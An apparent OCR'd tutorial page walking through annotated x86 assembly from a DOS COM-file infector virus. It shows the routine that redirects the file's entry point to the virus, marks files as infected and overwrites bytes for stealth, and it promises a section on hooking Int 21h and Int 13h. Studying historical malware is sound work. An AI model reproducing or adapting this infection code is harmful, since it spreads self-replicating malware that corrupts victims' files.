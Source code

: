 #### Writing New Entry Point to File Header

```
pop     ax                          ; Retrieve file length
                sub     ax,3                        ; Adjust for new entry point
                mov     word ptr cs:[com_header+1],ax  ; Update COM header for virus entry point
                call    set_marker                  ; Mark file as infected

                call    lseek_start                 ; Move file pointer to start
                mov     ah,40h                      ; Set up to write file
                mov     cx,3                        ; Size of new header to write
                lea     dx,com_header               ; New header to write
                call    int_21h                     ; Write new header to file
``` 

#### Cleanup and Finalization

```
mov     ax,word ptr es:[di+11h]     ; Get actual file size
                sub     ax,3                        ; Adjust for header size
                call    lseek_end                   ; Move file pointer to header position

                mov     ah,40h                      ; Set up to write file
                mov     cx,3                        ; Size of data to overwrite
                lea     dx,garbage                  ; Data to overwrite with
                call    int_21h                     ; Overwrite part of the file (for stealth)

close_and_pop:  mov     ah,3eh                      ; Close file function
                call    int_21h                     ; Close the file

                call    reset_int_24h               ; Reset interrupt 24h (critical error handler)

                pop
 ```


Let's delve into the part of the code where the virus intercepts system interrupts, specifically DOS Interrupt 21h (Int 21h) and Interrupt 13h (Int 13h). This is a critical part of the virus's functionality, allowing it to inject its behavior into system operations.


